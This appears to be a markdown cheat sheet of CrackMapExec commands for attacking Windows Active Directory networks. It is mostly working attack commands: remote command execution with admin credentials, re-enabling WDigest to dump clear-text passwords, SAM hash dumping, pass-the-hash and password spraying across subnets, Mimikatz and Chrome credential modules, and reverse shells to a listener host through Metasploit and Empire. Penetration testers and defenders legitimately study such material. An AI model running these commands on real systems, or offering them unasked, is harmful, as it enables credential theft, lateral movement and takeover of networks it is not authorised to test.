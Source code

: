 # know how crackmapexec

[Download](https://github.com/Porchetta-Industries/CrackMapExec)

[Cheat sheet](https://www.ivoidwarranties.tech/posts/pentesting-tuts/cme/crackmapexec-cheatsheet/)

"CrackMapExec (a.k.a CME) is a post-exploitation tool that helps automate assessing the security of large Active Directory networks. Built with stealth in mind, CME follows the concept of ""Living off the Land"": abusing built-in Active Directory features/protocols to achieve it's functionality and allowing it to evade most endpoint protection/IDS/IPS solutions.
CME makes heavy use of the Impacket library for working with network protocols and performing a variety of post-exploitation techniques.
Although meant to be used primarily for offensive purposes (e.g. red teams, internal pentest), CME can be used by blue teams as well to assess account privileges, find possible misconfigurations and simulate attack scenarios."

```bash
crackmapexec 192.168.10.0/24

## command execution
crackmapexec 192.168.10.11 -u Administrator -p 'P@ssw0rd' -x whoami

crackmapexec 192.168.10.11 -u Administrator -p 'P@ssw0rd' -X '$PSVersionTable'

## Checked for logged in users

crackmapexec 192.168.215.104 -u 'Administrator' -p 'PASS' --lusers

## Using Local Auth Allows you to use local accounts rather than domain creds.

crackmapexec 192.168.215.138 -u 'Administrator' -p 'PASSWORD' --local-auth

## Enumerating Shares This allows us to re-enable the WDigest provider and dump clear-text credentials from LSA memory

crackmapexec 192.168.215.104 -u 'Administrator' -p 'PASS' --local-auth --wdigest enable
crackmapexec 192.168.215.104 -u 'Administrator' -p 'PASS' --local-auth --wdigest disable

## Password Policy One useful query enumerates the domain’s password policy including complexity requirements
crackmapexec 192.168.215.104 -u 'Administrator' -p 'PASS' --pass-pol

## RID Bruteforcing you can use the rid-brute option to enumerate all AD objects including users and groups by guessing every resource identifier (RID), which is the ending set of digits to a security identifier (SID). 

crackmapexec 192.168.215.104 -u 'Administrator' -p 'PASS' --rid-brute

## Dumping the local SAM hashes

crackmapexec 192.168.215.104 -u 'Administrator' -p 'PASS' --local-auth --sam

## Passing-the-Hash against subnet Login to all subnet machines via smb with admin + hash. By using the –local-auth and a found local admin password this can be used to login to a whole subnets smb enabled machines with that local admin pass/hash.

cme smb 172.16.157.0/24 -u administrator -H 'aad3b435b51404eeaa35b51404ee:5509de4fa6e8d9f4a61100e51' --local-auth

## NULL Sessions You can log in with a null session by using '' as the username and/or password

crackmapexec smb <target(s)> -u '' -p ''

## Brute Forcing & Password Spraying We can do this by pointing crackmapexec at the subnet and passing the creds:

crackmapexec 10.0.2.0/24 -u ‘admin’ -p ‘P@ssw0rd’

## Bruteforcing examples

crackmapexec <protocol> <target(s)> -u username1 -p password1 password2

crackmapexec <protocol> <target(s)> -u username1 username2 -p password1

crackmapexec <protocol> <target(s)> -u ~/file_containing_usernames -p ~/file_containing_passwords

crackmapexec <protocol> <target(s)> -u ~/file_containing_usernames -H ~/file_containing_ntlm_hashes

## Listing Modules

crackmapexec -L

## SMB Mimikatz module

sudo cme 192.168.215.104 -u 'Administrator' -p 'PASS' --local-auth -M mimikatz

## Modules - Enum_Chrome
sudo cme 192.168.215.104 -u 'Administrator' -p 'PASS' --local-auth -M enum_chrome

## Modules - Enum_AV Another piece of useful information CrackMapExec can gather is what anti-virus software is in use.

sudo cme 192.168.215.104 -u 'Administrator' -p 'PASS' --local-auth -m enum_avproducts

## Getting Shells with CrackMapExec in metasploit Need to setup Http Reverse Handler in MsfConsole

sudo cme 192.168.215.104 -u 'Administrator' -p 'PASS' --local-auth -M met_inject -o LHOST=192.168.215.109 LPORT=5656 

## Getting Shells with CrackMapExec in Empire

### Start RESTful API

empire --rest --user empireadmin --pass gH25Iv1K68@^

### Launch empire listener to target

sudo cme 192.168.215.104 -u Administrator -p PASSWORD --local-auth -M empire_exec -o LISTENER=CMETest
EMPIRE_EXEC  
```
